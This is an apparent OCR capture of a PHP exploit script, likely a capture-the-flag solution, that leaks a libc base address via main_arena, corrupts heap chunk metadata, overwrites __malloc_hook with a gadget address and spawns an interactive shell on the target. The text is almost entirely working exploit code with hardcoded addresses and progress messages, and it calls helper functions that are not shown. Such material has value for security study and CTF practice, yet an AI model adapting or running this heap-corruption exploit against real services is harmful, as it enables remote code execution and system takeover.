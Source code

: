 ```php
$leak = 0xFFFFFFFFFFFFFF;
while($idx < 11 * 8) {
	$leak ^= 1 << ($idx - 4 * 8);
	$idx = add($t, $padding);
}

// leak libc from main_arena offset
$libc = $leak - MAIN_ARENA;
assert(0 === ($libc & 0xFFF));
assert(0 === ($libc >> 48));
printf("[+] libc: %X\n", $libc);
printf("\n");
/* }}} */

printf("[*] Allocate mmap\n"); /* {{{ */
$idx = add($t, str_repeat("d", 0x551)); // dichotomy
assert(193 === $idx);

$mmap   = 0x7ffff7daf010;
$target = 0x7ffff7dd0000 + HOOK;
$delta  = $target - $mmap;
$size   = (int)($delta / (0x60 - 1)) & ~0x0F;
//$size   = $delta & ~0x0F;
$start  = $mmap + $size * (0x60 - 1);

// printf("Write:  %X\n", $start);
// printf("Target: %X\n", $target);
// printf("Until:  %X\n", $start + $size);


$meta   = "";
$meta  .= pack("V", $size);
$meta  .= str_repeat("\xFF", 11) . "\x7F";
//$meta  .= str_pad("\x01", 12, "\x00");
$meta   = str_pad($meta, 0x551, "\x00");

printf("[*] Corrupt chunk\n");
del($t, 192);
$idx = add($t, $meta);
assert(192 === $idx);


/* Overwrite __malloc_hook */
printf("[*] Overwrite __malloc_hook\n");
$payload  = str_repeat("A", $target - $start);
$payload .= pack("Q", $libc + GADGET);
$payload  = str_pad($payload, $size, "B");
add($t, $payload);

/* Manual add */
printf("[*] Call gadget\n");
if(LOCAL)
	fgets(STDIN);

menu($t);
$t->write("1\n");

$size = $libc + 0xc0; // PTR on NULL
$t->expect("Object size: ");
$t->write("$size\n");

printf("[!] shell\n");
$t->pipe();
```